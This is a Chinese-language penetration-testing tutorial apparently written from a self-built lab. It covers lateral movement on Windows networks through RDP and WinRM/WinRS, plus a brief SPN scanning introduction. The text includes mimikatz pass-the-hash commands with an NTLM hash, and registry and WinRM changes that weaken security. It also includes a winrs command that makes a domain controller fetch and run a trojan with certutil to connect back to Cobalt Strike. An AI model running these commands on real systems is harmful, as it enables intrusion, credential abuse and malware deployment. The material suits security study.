# 1. 前言

文章中很多的环境，由于都是自己搭建的，有时候可能会出现无法测试成功的情况，有人问为什么不使用别人搭建好的靶场，主要是懒，不过最关键的是，这些环境太大了，自己的小破机器带不动呀。

同时后面的文章很多之前介绍过的操作方式，我就会直接说，而不会像之前一样，一步一步操作，就比如我要设置socks代理，我就只会说，这里需要设置socks代理，而不会在去一步步演示socks代理如何设置。

如果看不懂或者看不懂我说的是什么意思，或者比如说上面提到的要设置socks代理，你还在想socks代理什么，socks代理怎么设置的，那我觉得你还是去看我写过的代理方面的文章吧。

其实不是我不想写这些曾经说过的，而是我觉得没必要了，而且写的话，我要截很多图，再写解释，就会很麻烦，而且有时候我想设置是这个样子的，而设置完发现不行，我又要重新删除，就会比较麻烦。

同时经常看的小伙伴也能感觉出来，现在很多操作做完了并没有上线的操作了，而是我觉得，目前使用到的一些上线操作都是应该能想到的，比如下面的内容，你都获取到远程桌面了，你问我如何上线？？？你都获取到cmd权限了，你问我如何上线？

# 2. RDP协议

关于RDP协议应该不会不知道吧，这里就不介绍了，RDP也就是远程桌面，RDP是支持明文和NTLM的，不过我们正常情况下都是使用明文去连接，这里确实都不需要怎么介绍都应该知道，当我们获取到密码的时候就可以远程到桌面上，不过再连接的时候也会出现不少的其它问题，下面我们就围绕这些问题说一下。

## 2.1. RDP连接方式

正常情况下RDP连接会有以下几种情况：

```
1. 直接在被控主机上去去连接远程桌面，不过你直接连接会出现问题的，小心点。
2. 建立节点进行连接或者使用代理工具连接，这个是比较推荐的。
3. 端口转发建立连接，这个其实就是利用之前介绍过的代理转发来建立连接，不过需要上传工具。
```

这里还是比较推荐建立节点进行连接的。

## 2.2. 查找RDP端口

通常管理员在设置远程桌面的时候，一般情况下有点安全意识的管理员都会将RDP端口修改掉，这就会导致默认的RDP端口不在是3389端口，这时候我们再去测试3389肯定是找不到的，而我们就需要去找这个修改后的RDP端口。

像一些插件可以直接获取到RDP端口，那么像这类的就非常省事了，但是如果我们没插件怎么办？

### 2.2.1. 插件展示

这个就是插件自动获取到的RDP端口。



### 2.2.2. 手动获取

由于我这里手段获取不知道为什么死活获取不到进程，这里我就放其它文章中的操作。

```
tasklist /svc | find "Ter"    ##查看远程桌面服务TermService进程PID
```

这里查询完可能会发现不显示PID，那么就直接执行命令来找TermService进程。

```
tasklist /svc   ##找到TermService进程PID即可。
```

找到后根据PID，查看远程桌面使用的端口。

```
netstat -ano | find "进程PID"    ##找出端口。
```



## 2.3. RDP测试案例

首先这里需要上线一台主机，同时我们如果使用明文或者NTLM去建立连接，那么就需要提权，去获取这些值，上线我就展现如何上线了。



### 2.3.1. 获取账号密码

首先我们在提权之后获取一下账号密码，这里获取账号密码，主要是为了后面好进行连接测试。



### 2.3.2. 扫描RDP服务

默认的RDP服务是3389端口，那么我们就使用端口扫描选择扫描3389，由于我们这些机器是不出网的，所以选择扫描另外一个网段，一定要提权后扫描哦，如果没提权可能无法扫描其它网段或者直接就不显示其它网段。



### 2.3.3. 设置代理

这里我们就使用使用之前学到的代理，通过代理来连接目标主机。

#### 2.3.3.1. 未设代理测试

这里我们测试一下未设置代理，会发现我们是无法连接内网的机器的。



#### 2.3.3.2. RDP明文连接桌面

这个设置代理应该就不用说了，在CS中设置socks代理即可,不过这里需要注意，当你使用代理去连接桌面的时候，你需要提前知道，当前用户是否有人在使用，否则的话会有提示。



### 2.3.4. RDPhash值连接桌面

使用RDP的hash值连接桌面，可能比较麻烦，这里提前条件太多了，需要开启Restricted Admin Mode，在Windows8.1和Windows server 2012 r2上是默认开启的。

同时想要使用hash值连接远程桌面，不单单是本地要支持Restricted Admin Mode，对端也要支持Restricted Admin Mode。

所以这里测试的时候，我本地Windows10，我没有调试过，我测试了一下，好像是默认开启的，可能低版本的Windows系统应该是都不支持需要修改注册表，而这里就出现了一个问题我们都没有连接上，木马也没有连接上我们如何修改对方的注册表？？？

如果已经上传上去了，可以使用命令修改注册表。

这里关于怎么修改这个注册表我给一些其它文章中提到的，我就不去测试了。

```
Windows2003
REG ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

Windows2008
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
```

#### 2.3.4.1. 支持测试

想要知道支不支持这个hash连接，可以使用命令来进行测试，如果当前系统支持Restricted Admin mode，那么可以直接弹出远程桌面，如果不支持则会弹出远程桌面的参数说明。

```
mstsc.exe /restrictedadmin
```



#### 2.3.4.2. 测试连接

这里我们先要获取hash值，这里我获取一下Windows 2012的值，这个获取部分还是之前的那个使用上线的主机去抓取一下密码来获取。

同时这里我们如果在cs中进行连接那么就是调用上线这台主机的远程桌面，而提到过，最好不要在上线主机上进行远程桌面，而是采用代理，所以这里我们也是采用代理的方式来转发。

设置代理我也不想说，直接演示吧，对了本地要下载一个mimikatz哦，不然不好测试，这里我本来想使用本地测试的，但是我本地的mimikat老是出现错误，我就使用另外一台虚拟机进行测试，可以看到是成功连接了。

这里执行命令后会弹出远程桌面的端口，只需要输入IP地址就可以了，不需要输入账号密码。

```
privilege::debug
sekurlsa::pth /user:administrator /domain:192.168.20.1 /ntlm:579da618cfbfa85247acf1f800a280a4 "/run:mstsc.exe /restrictedadmin"
```



## 2.4. 总结

RDP连接是我们最熟悉不过的了，但是整体过程中呢，还是不建议使用RDP连接，除非确认当前用户不在线，或者说是一台服务器，因为服务器正常管理员也都是远程桌面过来管理的，所以不会有太多影响，如果是域内个人主机还好，可能还会存在administrator账户，正常登陆的时候都是登陆管理员分配的账户，不过也有时候可能administrator会被管理员直接禁止.......

还有一种情况就是个人主机，我记得个人主机再安装系统的时候会让其创建账户，自动赋予管理员权限，默认情况下administrator账户是禁用的状态，个人主机也不会有人开启的，所以可能还需要开启账户。

总之再使用RDP连接的时候，还是需要注意一点的，别把人家踢下线了，那么你不是百分百自投罗网么。

# 3. WinRM&WinRS

WinRM 是 Windows Remote Managementd（Windows 远程管理）的简称，是 Web 服务管理标准 WebService-Management 协议的 Microsoft 实现。该协议是基于简单对象访问协议（SOAP）的、防火墙友好的标准协议，允许来自不同供应商的硬件和操作系统能够互操作。

WinRM 作为 Windows 操作系统的一部分，是一项允许管理员在系统上远程执行管理任务的服务。并且，WinRM 默认情况下支持 Kerberos 和 NTLM 身份验证以及基本身份验证，初始身份验证后，WinRM 会话将使用 AES 加密保护。使用 WinRM 服务需要拥有管理员级别的权限。

在现代 Windows 系统中，WinRM HTTP 通过 TCP 端口 5985 进行通信，而 HTTPS（TLS）通过 TCP 端口 5986 进行通信。如果所有的机器都是在域环境下，则可以使用默认的 5985 端口，否则的话则通过 5986 端口使用 HTTPS 传输。

使用 WinRM 我们可以在远程主机设置了防火墙的情况下远程管理这台服务器，因为启动 WinRM 服务后，防火墙默认会自动放行 5985 端口。这样的管理服务当然不会被攻击者错过，在内网渗透中，我们可以使用 WinRM 服务进行横向移动，并且使用这种远程连接进行横向移动不容易被察觉到，也不会占用远程连接数。

## 3.1. WinRM安装与配置

如果想要利用WinRM服务，并且让winrm命令行工具执行操作，那么通信双方必须同时安装并配置好Windows远程管理。

同时winrs适用于Windows server 2008及Windows 7 以后的操作系统上并自动与操作系统一同安装，但是只有在Windows server 2008以上的操作系统winrs服务才会自启动，其它的都是需要手动开启的。

不过通过验证Windows 2008以上版本都是自动开启默认状态，Windows 7则必须手动开启，同时Windows server 2012之后的版本默认开启同时运行远程任意主机来管理。

### 3.1.1. 查看winrm侦听器配置情况

这是在Windows server 2012上面，我在Windows server 2008上设置，发现还是有一些小问题的，虽然自动开启，但是并不是默认允许任何主机连接。

```
Address：表示监听器所监听的地址。
Transport：用于指定用于发送和接收 WS-Management 协议请求和响应的传输类型，如  HTTP 或 HTTPS，其默认值为 HTTP。
Port：表示监听器所监听 TCP 端口。
Hostname：正在运行 WinRM  服务的计算机的主机名。该值必须是完全限定的域名、IPv4 或 IPv6  文本字符串或通配符。
Enabled：表示是启用还是禁用侦听器，其默认值为 True，表示启用。
URLPrefix：用于指定要在其上接受  HTTP 或 HTTPS 请求的 URL 前缀。例如，如果计算机名称为 SampleMachine，则 WinRM 客户端将在目标地址中指定 `https://SampleMachine/<在目标地址中指定的 URLPrefix>`。默认 URL 前缀为 "wsman"。CertificateThumbprint：用于指定服务证书的指纹。
ListeningOn：用于指定侦听器使用的 IPv4 和 IPv6 地址。
```

```
winrm e winrm/config/listener 或 winrm enumerate winrm/config/listener
winrm get winrm/config  #查看具体配置
```



### 3.1.2. 启动winrm服务

使用命令启动 WinRM 服务，并对 WinRM 服务进行默认配置。

默认是配置以下内容：

```
启动 WinRM 服务，并将服务启动类型设置为 "自动启动"。启动后，防火墙会默认并放行 5985 端口。
为在任何 IP 地址上使用 HTTP 或 HTTPS 发送和接收 WS-Management 协议消息的端口配置侦听器。
定义 WinRM 服务的 ICF 异常，并打开 HTTP 和 HTTPS 端口。
```

```
winrm quickconfig
```


### 3.1.3. 其它配置命令

以下命令是可以对其winrm进行修改的一些命令。

```
使用 PowerShell 查询 WinRM 状态:Get-WmiObject-Class win32_service | Where-Object{$_.name -like "WinRM"}
开启 WinRM 远程管理:Enable-PSRemoting–force
设置 WinRM 自启动:Set-ServiceWinRM-StartModeAutomatic
对 WinRM 服务进行快速配置，包括开启 WinRM 和开启防火墙异常检测, HTTPS传输, 5986端口:winrm quickconfig -transport:https    
为 WinRM 服务配置认证:winrm set winrm/config/service/auth @{Basic="true"}
修改 WinRM 默认端口:winrm set winrm/config/client/DefaultPorts @{HTTPS="8888"}
为 WinRM 服务配置加密方式为允许非加密:winrm set winrm/config/service @{AllowUnencrypted="true"}
设置只允许指定 IP 远程连接:winrm set winrm/config/Client @{TrustedHosts="192.168.10.*"}
设置允许所有 IP 远程连接:winrm set winrm/config/Client @{TrustedHosts="*"}
```



### 3.1.4. 其它特殊问题

在开启winrm启动服务时，这里会出现是否执行更改，直接输入Y即可，不过也会出现一些其它的问题，例如：

拒绝访问：可以重新以管理员身份进入cmd

提示需要将网络由公用改为域或专用，直接在网络设置中找到以太网将公用改为专用即可

## 3.2. winRM&winRS测试案例

WinRS 是 Windows 的远程 Shell，它相当于 WinRM 的客户端，使用它可以访问运行有 WinRM 的服务器，不过自己也得装上 WinRM 才能运行 WinRS。

### 3.2.1. 开启winRM

这里如果你控制的是Windows 2008系统，理论上来说是不需要再去操作一遍的，但是最好还是去操作一遍，同时注意开启的时候需要使用高权限哦。低权限无法开启。

```
winrm quickconfig    
winrm set winrm/config/Client @{TrustedHosts="*"}
```


### 3.2.2. 端口测试

由于默认情况下winrm使用的是5985端口，那么我们就可以针对这个端口进行扫描，这里可以看到被控主机与域控都开启了winrm，这里需要说以下，如果域控主机是Windows server 2012 只要管理员不去修改，那么理论上就是开启状态，同时还是允许任意主机区连接，但是如果管理员设置了一些操作，那么........基本上可能就无法成功了，只有想别的突破口了。



### 3.2.3. winrm利用

这里我们进行连接的时候不是使用winrm而是使用winrs进行连接，同时需要获取密码，至于这个密码怎么获取，应该都了解，直接用cs去抓取即可。

#### 3.2.3.1. 连接域控主机

可以看到这里是能够利用成功的，不过CS上一直显示”句柄无效“，我查了以下资料说需要将IP地址替换成机器名，但是我替换了不过依旧显示句柄无效，搞不懂了。

同时hash值我并没有利用成功，不知道是不是需要设置什么.....

```
winrs -r:192.168.20.1 -u:192.168.20.1\administrator -p:admin@123 ipconfig
winrs -r:[ip] -u:[username] -p:[password] <command>
```



#### 3.2.3.2. 获得交互式会话

这里输入命令可以获取交互式会话，相当于远程连接到域控的cmd上。

```
winrs -r:192.168.20.1 -u:192.168.20.1\administrator -p:admin@123 cmd
```



### 3.2.4. 上线CS

这里直接让域控下载一个木马，上线即可，需要注意，由于域控是在内网，无法访问到外网，需要使用到转发上线哦，这里我就不操作了，直接给命令，由于我也没搭建web服务器。

```
winrs -r:192.168.20.1 -u:192.168.20.1\administrator -p:admin@123 "cmd.exe /c certutil -urlcache -split -f http://192.168.20.10/3010.exe 3010.exe & 3010.exe"
```

## 3.3. CS内置插件

在CS中是有内置插件的，这里我们在获取端口存活哦，直接使用插件进行转发上线即可，选择一个账户密码即可，不过.....我依旧没测试成功，由于环境都是我自己搭建的，所以问题也比较多，其实这样才是最真实的，由于现实环境中，很多管理员设置完并不会考虑这些，所以会有遗漏的或者默认拦截的，导致我们在利用的时候，问题也是很多的。



# 4. kerberos&Spn_请求&破解

这里简单说一下，太复杂了我也还没搞懂。

[参考连接](https://www.cnblogs.com/backlion/p/8082623.html)

## 4.1. SPN定义

服务主体名称（SPN）是Kerberos客户端用于唯一标识给特定Kerberos目标计算机的服务实例名称。Kerberos身份验证使用SPN将服务实例与服务登录帐户相关联。如果在整个林中的计算机上安装多个服务实例，则每个实例都必须具有自己的SPN。如果客户端可能使用多个名称进行身份验证，则给定的服务实例可以具有多个SPN。例如，SPN总是包含运行服务实例的主机名称，所以服务实例可以为其主机的每个名称或别名注册一个SPN。

## 4.2. SPN扫描

spn扫描也可以叫扫描Kerberos服务实例名称，在Active  Directory环境中发现服务的最佳方法是通过“SPN扫描”。通过请求特定SPN类型的服务主体名称来查找服务，SPN扫描攻击者通过网络端口扫描的主要好处是SPN扫描不需要连接到网络上的每个IP来检查服务端口。SPN扫描通过LDAP查询向域控制器执行服务发现。由于SPN查询是普通Kerberos票据的一部分，因此如果不能被查询，但可以用网络端口扫描来确认。

在活动目录中发现服务的最佳方法就是SPN扫描。SPN扫描通过请求特定SPN类型的服务主体名称来查找服务。与网络端口扫描相比，SPN扫描的主要特点是不需要通过连接网络中的每个IP地址来检查服务端口(不会因为触发内网中的IPS、IDS等设备的规则而产生大量的警告日志)。因为SPN查询是Kerberos票据行为的一部分，所以检测难度很大。

由于SPN扫描是基于LDAP协议向域控制器进行查询的，所以，攻击者只需要获得一个普通的域用户权限，就可以进行SPN扫描。

在域环境中，发现服务的最好办法就是通过”SPN扫描”。通过请求特定SPN类型服务主体名称来查找服务。

### 4.2.1. SPN格式

SPN = serviceclass “/” hostname [“:”port] [“/” servicename]

